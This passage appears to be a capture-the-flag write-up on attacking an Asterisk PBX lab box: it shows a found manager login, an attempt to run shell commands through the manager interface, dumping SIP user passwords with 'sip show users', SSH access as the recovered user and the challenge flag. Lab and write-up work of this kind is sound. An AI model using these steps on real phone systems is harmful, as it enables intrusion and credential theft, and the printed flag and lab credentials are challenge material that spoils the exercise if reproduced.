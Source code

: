 We find the credentials :

```
admin:abc123
```

I played around for a while in the `asterisk CLI`

Was trying to run shell commands using 

```
action: command
command: !SHELLCMD
```

Also tried the `originate` approach but there was no channels so it didn't seem to work.

Anyways, after a while, I had a look at a write up... and it was so simple..

We can dump user creds using

```
action: command
command: sip show users
```

We get

```
Output: Username                   Secret           Accountcode      Def.Context      ACL  Forcerport
Output: 100                        100                               test             No   No
Output: 101                        101                               test             No   No
Output: harry                      p4ss#w0rd!#                       test             No   No
```

Which give us the credentials 

```
harry:p4ss#w0rd!#
```

I had a look at all the availale commands 

```
action: command
command: core show help
```

And there was a bunch of commands to dump users.

Only `sip show users` and `iax2 show users` would dump the credentials.



Anyways, now we can `ssh` as `harry`

And we got the flag `/home/harry/user.txt` :

```
thm{bas1c_aster1ck_explotat1on}
```


